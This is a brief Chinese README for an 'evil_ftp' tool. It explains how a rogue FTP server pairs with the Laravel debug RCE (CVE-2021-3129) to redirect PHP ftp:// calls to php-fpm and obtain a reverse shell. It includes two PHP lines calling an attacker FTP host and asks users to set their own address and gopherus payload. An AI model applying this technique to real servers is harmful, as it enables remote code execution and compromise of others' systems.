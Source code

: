 # evil_ftp


本脚本配合CVE-2021-3129 laravel debug rce食用更佳

运行上述脚本，一个恶意ftp服务就起来了(注释已经很详细了）

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的payload

当客户端第二次连接的时候将客户端的连接重定向到127.0.0.1:9000,也就是我们的php-fpm服务的端口

ps:其中ftp服务端返回的状态码是比较重要的，如果状态码不对是无法连接成功的，但是这些状态码也不是特别严格
贴一篇参考文章：
https://blog.csdn.net/qq981378640/article/details/51254177

**使用该脚本需要自己修改对应的ip:port**

脚本中的payload是使用的gopherus生成的攻击fastcgi的payload,使用时也记得自己去生成一份


有了上面的ftp server,下面的两行看似无懈可击的代码也就可以被RCE了：

`$a = file_get_contents("ftp://aaa@172.16.230.146:23/123");`
`file_put_contents("ftp://aaa@172.16.230.146:23/123", $a);`

反弹回的shell:

![](https://mmbiz.qpic.cn/mmbiz_jpg/1YLJUhm0ZtlwAYYnTsn47LmZt7GOXmwgGcicmWdouVUM6a04jjUAapuCLDeW7JEINazFGL04icicXXaZRBYyuy63A/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

关于laravle debug rce的复现在这里：

https://mp.weixin.qq.com/s/UPf62W0LoOGsFAdH4uqBcQ
